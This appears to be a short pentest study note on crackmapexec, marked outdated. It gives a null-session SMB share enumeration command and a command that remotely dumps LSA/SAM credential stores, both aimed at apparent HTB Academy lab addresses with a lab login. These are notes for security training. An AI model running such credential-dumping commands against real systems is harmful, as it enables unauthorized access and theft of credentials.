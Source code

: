 **OUTDATED!** Newer one is [[nxc]]
```bash
$ crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```

## Dump LSA/SAM Remotely
```shell-session
$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --<lsa/sam>
```

